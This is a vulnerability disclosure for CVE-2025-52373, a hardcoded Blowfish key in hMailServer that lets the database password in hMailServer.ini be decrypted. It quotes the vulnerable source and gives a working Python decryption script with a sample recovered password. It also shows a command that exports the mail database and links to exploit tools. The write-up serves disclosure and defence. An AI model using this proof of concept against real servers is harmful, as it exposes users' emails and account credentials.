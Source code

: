 # CVE-2025-52373

**Suggested description:** Use of hardcoded cryptographic key in `BlowFish.cpp` in hMailServer 5.8.6 and 5.6.9-beta allows attacker to decrypt passwords used in database connections from `hMailServer.ini` config file.

**VulnerabilityType Other:** CWE-321: Use of Hard-coded Cryptographic Key

**Vendor of Product:** hMailServer

**Affected Product Code Base:** hMailServer - 5.8.6, 5.6.9-beta

**Affected Component:** `hmailserver/source/Server/Common/Util/BlowFish.cpp`, `hMailServer.ini`

**Attack Type:** Local

**Impact Information Disclosure:** true

**Attack Vectors:** to exploit this, someone can simply adapt the existing functions in the source code into a tool to decrypt passwords that are used in connection strings to SQL servers

**Reference:**
- hMailServer Exploit: https://github.com/mojibake-dev/hMailEnum
- Generic Exploit: https://github.com/mojibake-dev/belskysGambit
- Blog Post: https://mojibake.dev/belskys-gambit
- Application: https://github.com/hmailserver/hmailserver

**Discoverer:** Eli Samara

**Detailed Explanation:**

Hardcoded password is set
``` cs
#define NOT_SECRET_KYE "THIS_KEY_IS_NOT_SECRET"
```
> line 20 `hmailserver/source/Server/Common/Util/BlowFish.cpp`

and used 
```cs
   BlowFishEncryptor::BlowFishEncryptor ()
   {
 	   PArray = new DWORD [18] ;
 	   SBoxes = new DWORD [4][256] ;

      String sKey = NOT_SECRET_KYE;
      int iKeyLen = sKey.GetLength();
      BYTE *buf = new BYTE[iKeyLen + 1];
      memset(buf, 0, iKeyLen + 1);
      strncpy_s((char*) buf, iKeyLen+1, Unicode::ToANSI(sKey), iKeyLen);
      
      Initialize(buf, iKeyLen );
     
      delete [] buf;
   }
```
> line 29 `hmailserver/source/Server/Common/Util/BlowFish.cpp`

This is then used to encrypt the database `Password` under `[Database]` in `hMailServer.INI`. 

The flow looks something like this. 
```
hMailServerInnoExtension.iss
	DBSetupQuick.exe
		InitializeInternalDatabase()
			CreateInternalDatabase()
				PasswordGenerator::Generate()
					ini_file_settings_->SetPassword(sPassword);
						WriteIniSetting_();
					
```

When the installer is told to create an internal database it runs the helper program DBSetupQuick.exe which performs a flow demonstrated above.

The value field written looks like this. `Password=fb8f1b06f59cf34cf99164835d6ae736`

when fed to this script 
```python
from Crypto.Cipher import Blowfish

def blowfish_decrypt_le(cipher_hex: str, key: bytes = b"THIS_KEY_IS_NOT_SECRET") -> str:
    # Convert hex to bytes
    ct = bytes.fromhex(cipher_hex)
    bs = Blowfish.block_size  # 8 bytes per block
    
    # Initialize ECB cipher
    cipher = Blowfish.new(key, Blowfish.MODE_ECB)
    plaintext_bytes = b''

    # Process each 8-byte block
    for i in range(0, len(ct), bs):
        block = ct[i:i+bs]
        # Reverse each 4-byte word to match encryption pre-transform
        le_block = block[:4][::-1] + block[4:][::-1]
        # Decrypt
        dec_le = cipher.decrypt(le_block)
        # Reverse words back to big-endian
        dec_be = dec_le[:4][::-1] + dec_le[4:][::-1]
        plaintext_bytes += dec_be

    # Strip trailing zero-byte padding
    plaintext_bytes = plaintext_bytes.rstrip(b'\x00')
    # Decode to UTF-8
    return plaintext_bytes.decode('utf-8', errors='ignore')


# Example self-test
if __name__ == "__main__":
    test_ct = "fb8f1b06f59cf34cf99164835d6ae736"
    recovered = blowfish_decrypt_le(test_ct)
    print("Recovered plaintext:", recovered)
```

I retrieve the value `Recovered plaintext: 5C7662397665`

This then unlocks the database and allows me to export it as a more readable .sql script that will generate a sqlite db using this tool https://github.com/ErikEJ/SqlCeToolbox

```cmd
> .\ExportSqlCe.exe "Data Source=hMailServer.sdf;Password=5C7662397665;" hMailServer.sql sqlite
Initializing....
Generating the tables....
Generating the data....
Generating the indexes....
Sent script to output file(s) : hMailServer.sql in 633 ms
```

With this you now have access to emails and account information.
